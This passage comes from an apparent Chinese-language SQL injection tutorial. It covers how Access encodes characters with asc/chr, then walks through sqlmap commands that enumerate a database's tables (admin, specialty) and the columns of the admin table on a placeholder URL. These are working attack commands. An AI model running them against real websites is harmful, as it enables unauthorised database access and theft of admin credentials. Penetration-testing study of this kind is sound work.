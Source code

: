```
注：在access中，中文也可以用asc函数来表示，例如：asc(mid("中国",1)) 表示 中 字的ascii值，可以用 chr 来逆向得出值
```

```
asc("中") = -10544

chr(-10544) = 中
```

##### 5)Sqlmap注入Access数据库

```
爆出access数据库存在的表，只能利用枚举的方式爆破。
```

```
sqlmap -u "xxx"  --tables
```

```
第一步问我们是否使用公共的库去爆破，我们选择：Y；

第二步选择默认的库文件：1 

第三步选择线程数：10
```

![20190307153027569](assets/20190307153027569.png)

```
可以看出爆出了两个数据表：admin 、 specialty
```

```
爆出admin数据库中的列名
```

```
sqlmap -u "xxx" -T admin --columns
```
